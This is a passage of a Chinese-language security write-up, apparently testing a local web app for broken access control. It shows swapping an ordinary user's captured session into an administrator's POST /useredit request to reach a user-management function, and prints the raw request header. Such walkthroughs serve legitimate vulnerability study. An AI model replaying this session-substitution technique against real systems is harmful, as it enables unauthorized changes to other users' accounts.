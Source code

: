 接下来登录一个普通用户的账号、可以看到这个用户是没有`用户管理`这个功能的。

抓取他的 session

![image-20240131013042054](assets/1708581123-b0cc3e59277eccca035b994a32972bf1.png)

使用普通用户的 session 替换掉管理员账号抓取到的数据包中的 session。注意：身份证格式要规范，我用的自己的就不展示了。

![image-20240131014801196](assets/1708581123-c93337ebcbe688058a067c22d877de67.png)

使用下边这个数据包的话要修改身份证哈`idCard`参数

```json
POST /useredit HTTP/1.1  
Host: 127.0.0.1  
sec-ch-ua-mobile: ?0  
Accept-Encoding: gzip, deflate, br  
Sec-Fetch-Dest: iframe  
Accept-Language: zh-CN,zh;q=0.9  
Sec-Fetch-Mode: navigate  
Referer: http://127.0.0.1/useredit  
Cookie: JSESSIONID=CA902F7BBA9E186241CC19593B034F47  
Upgrade-Insecure-Requests: 1  
Cache-Control: max-age=0  
sec-ch-ua-platform: "Windows"  
Sec-Fetch-Site: same-origin  
```